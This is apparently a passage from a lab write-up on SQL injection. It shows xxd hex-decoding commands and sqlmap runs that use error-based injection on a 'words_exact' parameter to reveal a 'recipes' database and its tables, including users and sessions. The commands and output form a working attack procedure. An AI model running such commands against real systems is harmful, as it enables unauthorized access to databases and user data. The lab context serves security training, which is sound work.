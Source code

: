 ```http
</html>
```

`echo -n '0x717a7a7171' | xxd -r -p`:
```
qzzqq
```

`echo -n '0x7178707a71' | xxd -r -p`:
```
qxpzq
```

`echo -n '0x78' | xxd -r -p`:
```
x
```

_Retrieve DBMS current database_

`sqlmap -r ./request.txt -p 'words_exact' --technique=E --current-db`:
```
[...]

[18:09:58] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.5
[18:09:58] [INFO] fetching current database
[18:09:58] [INFO] resumed: 'recipes'
current database: 'recipes'📌
[18:09:58] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/foq9rsyx9porvk529i6tt39dc.us-east-8.attackdefensecloudlabs.com'

[*] ending @ 18:09:58 /2024-11-26/
```

_Enumerate DBMS database tables_

`sqlmap -r ./request.txt -p 'words_exact' --technique=E -D 'recipes' --tables`:
```
[...]

Database: recipes📌
[7 tables]📌
+--------------------+
| categories         |
| ingredients        |
| recipe_ingredients |
| recipes            |
| sessions           |
| units              |
| users              |
+--------------------+

[18:12:27] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/foq9rsyx9porvk529i6tt39dc.us-east-8.attackdefensecloudlabs.com'

[*] ending @ 18:12:27 /2024-11-26/
```
